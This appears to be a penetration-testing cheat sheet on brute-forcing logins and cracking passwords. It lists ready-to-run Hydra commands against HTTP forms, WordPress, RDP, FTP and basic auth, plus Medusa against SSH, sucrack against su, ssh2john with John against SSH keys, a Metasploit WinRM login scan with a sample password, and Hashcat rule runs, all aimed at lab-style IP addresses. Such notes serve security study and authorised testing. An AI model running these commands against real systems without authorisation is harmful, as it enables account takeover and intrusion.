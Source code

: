 # Brute-Force

## Hydra

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.45.36 http-post-form "$Link$/login.aspx?ReturnURL=/admin:$COOKIE$:LOGIN FAIL MESSAGE" -vv

sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
```

| Command                                                                                                                                 | Description                                                                                                                                                        |
| --------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| hydra -P wordlist -v ip protocol                                                                                                        | Brute force against a protocol of your choice                                                                                                                      |
| hydra -v -V -u -L username_list -P password_list -t 1 -u ip protocol                                                                    | You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts) |
| hydra -t 1 -V -f -l username -P wordlist rdp://<ip>                                                                                     | Attack a Windows Remote Desktop with a password list.                                                                                                              |
| hydra -l username -P password list $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Craft a more specific request for Hydra to brute force.                                                                                                            |

```
"hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp"

Let's break it down:

SECTION             FUNCTION

hydra                   Runs the hydra tool
-t 4                    Number of parallel connections per target
-l [user]               Points to the user who's account you're trying to compromise
-P [path to dictionary] Points to the file containing the list of possible passwords
-vV                     Sets verbose mode to very verbose, shows the login+pass combination for each attempt
[machine IP]            The IP address of the target machine
ftp / protocol          Sets the protocol
```

### Basic HTTP auth

```
hydra -l USER -P /usr/share/wordlists/rockyou.txt -s PORT -f 10.10.93.125 http-get /PATH
```

## Brute force ssh with medusa

```
medusa -h IP -U users.txt -P passwords.txt -M ssh IP
```

## Brute force su with sucrack

```
sucrack -a -w 20 -s 10 -u user pass.txt
```

## Brute force ssh key with John

```
/usr/share/john/ssh2john.py id_rsa > for_john.txt

john for_john.txt --wordlist=rockyou.txt
```

## Brute force Windows login

```
msf5 auxiliary(scanner/winrm/winrm_login) > set PASSWORD '$fab@s3Rv1ce$1'
PASSWORD => $fab@s3Rv1ce$1
msf5 auxiliary(scanner/winrm/winrm_login) > set USER_FILE users
USER_FILE => users
msf5 auxiliary(scanner/winrm/winrm_login) > set RHOSTS 10.10.10.193
RHOSTS => 10.10.10.193
msf5 auxiliary(scanner/winrm/winrm_login) > run
```

## Hashcat

Running hashcat with a rule set

```
hashcat -m 3200 hash.txt dict.txt -r /usr/share/hashcat/rules/best64.rule --debug-mode=1 --debug-file=matched.rule --force
```

Create an upgraded wordlist using hashcat rules

```
hashcat -r /usr/share/hashcat/rules/best64.rule --stdout rule > wordlist.txt
```
Online Cracker
- https://github.com/someshkar/colabcat